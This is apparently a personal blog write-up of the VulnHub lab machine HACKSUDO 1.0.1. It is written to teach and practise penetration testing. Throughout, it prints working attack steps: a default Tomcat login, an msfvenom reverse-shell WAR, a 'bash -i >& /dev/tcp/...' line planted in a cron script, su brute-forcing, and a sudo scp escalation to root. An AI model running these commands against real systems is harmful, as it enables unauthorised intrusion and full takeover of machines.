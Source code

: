 ```yaml
---
layout: post
title:  "Vulnhub: HACKSUDO: : 1.0.1"
date:   2021-04-12 19:00:00 +1100
category: hacking
---
```


## HACKSUDO: : 1.0.1
I was away for a couple of days. I try to do some practice everyday; the first day I did [SimpleCTF](https://tryhackme.com/room/easyctf) from THM on my phone (I had no computer with me) which was kind of a pain in the ass but I got it done; next day I did a little bit of OverTheWire. Now I'm home again and decided to do this one, because some guy on the VulnHub discord said:

>Hacksudo 1.1 really hamring , quite difficult I took 2 day to solved

Well either he was having a bad day or I had a good one because it took me about 90 minutes.

This is [HACKSUDO: 1.0.1](https://www.vulnhub.com/entry/hacksudo-101,650/) from Vulnhub. The page doesn't indicate whether it was supposed to be difficult or not; I suspect not.

## Ports
SSH on 2222, plus HTTP on ports 80 and 8080.

## HTTP/80
There is a lot going on here; it's designed around an online store. Stacks of pages -  mostly PHP - many of which display the page source and show lots of stuff about MySQL which makes you think SQLi. I tried sqlmap on about three different things, but to no avail. Example:

{% highlight php %}
$sql = "INSERT INTO products(product_code,product_name,category,fandom,price,product_qty) VALUES ('$code','$name','$cat','$fan','$fees','$quant')";  
if (mysqli_query($mysqli,$sql)){    
{% endhighlight %}
	
etc.

## HTTP/8080
We have Apache Tomcat. Putting aside the other port for a while, I try some default creds and bingo! we get a hit with *tomcat:tomcat*. Once we get that we can create a WAR file:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/hacksudo1]
└─# msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.192 LPORT=1234 -f war > shell.war
Payload size: 1090 bytes
Final size of war file: 1090 bytes
{% endhighlight %}

Then upload it with the browser and navigate to it to trigger our shell:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/hacksudo1]
└─# nc -nvlp 1234                                               
listening on [any] 1234 ...
connect to [192.168.1.192] from (UNKNOWN) [192.168.1.196] 50916
id
uid=1003(tomcat) gid=1003(tomcat) groups=1003(tomcat)
which python
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash");'
tomcat@hacksudo:/$
{% endhighlight %}

## Vishal
Some poking around and looking in home directories etc reveals we probably need to become Vishal, but we don't have a password (yet). Linpeas to the rescue:

{% highlight shell %}
tomcat@hacksudo:/dev/shm$ ./linpeas.sh -a
./linpeas.sh -a
# run with the -a switch to bruteforce su
# and in nice red text with a yellow background we see: 
You can login as vishal using password: hacker
{% endhighlight %}

We can then SSH in:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/hacksudo1]
└─# ssh -p 2222 vishal@192.168.1.196         
The authenticity of host '[192.168.1.196]:2222 ([192.168.1.196]:2222)' can't be established.
ECDSA key fingerprint is SHA256:4kVNg3U+m3j2fjVDoWMqwHsiq9EXZpLkXWmRAIDUYqI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.1.196]:2222' (ECDSA) to the list of known hosts.
vishal@192.168.1.196's password: 
Welcome to Ubuntu 20.10 (GNU/Linux 5.8.0-41-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Apr 12 10:42:22 AM UTC 2021

# cruft removed for brevity

Last login: Tue Mar 30 17:03:31 2021 from 192.168.43.216
vishal@hacksudo:~$
{% endhighlight %}

## Hacksudo
I'd seen from linpeas that we had a cronjob running as hacksudo every minute:

``
*/1 *   * * *   hacksudo /home/hacksudo/./getmanager
``

And looking through the files it was obvious that the *getmanager* binary was calling this file:

``
4.0K -rwxrwxr-x 1 vishal   vishal    357 Apr 12 10:43 manage.sh
``

So we add a line and wait:

{% highlight shell %}
vishal@hacksudo:~/office$ cat manage.sh 
#!/bin/bash
echo  -e "\033[33;5;7mhey hacker great job!\033[0m"
echo "hey  vishal are you ready to get manager access ?(Y/N)"
read  input
echo "did you  recon your tasked access ? (Y/N)"
read input
echo  -e "\033[33;5;7myou have  1 minute to figure out!\033[0m"

echo  -e "\033[33;5;7m try to boommmm!!!!\033[0m"
bash -i >& /dev/tcp/192.168.1.192/1235 0>&1
{% endhighlight %}

## Root
Here's our shell, and the path to root:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/hacksudo1]
└─# nc -nvlp 1235
listening on [any] 1235 ...
connect to [192.168.1.192] from (UNKNOWN) [192.168.1.196] 51172
bash: cannot set terminal process group (149327): Inappropriate ioctl for device
bash: no job control in this shell
hacksudo@hacksudo:~$ python3 -c 'import pty;pty.spawn("/bin/bash");'
python3 -c 'import pty;pty.spawn("/bin/bash");'
# get user.txt here if you want it
hacksudo@hacksudo:~$ sudo -l
sudo -l
Matching Defaults entries for hacksudo on hacksudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hacksudo may run the following commands on hacksudo:
    (root) NOPASSWD: /usr/bin/scp
{% endhighlight %}

And then it's just [GTFOBins](https://gtfobins.github.io/gtfobins/scp/#sudo):

{% highlight shell %}
hacksudo@hacksudo:~$ TF=$(mktemp)
TF=$(mktemp)
hacksudo@hacksudo:~$ echo 'sh 0<&2 1>&2' > $TF
echo 'sh 0<&2 1>&2' > $TF
hacksudo@hacksudo:~$ chmod +x "$TF"
chmod +x "$TF"
hacksudo@hacksudo:~$ sudo -u root /usr/bin/scp -S $TF x y:
sudo -u root /usr/bin/scp -S $TF x y:
# id;hostname;date
id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
hacksudo
Mon Apr 12 10:47:11 AM UTC 2021
{% endhighlight %}

And that was that.
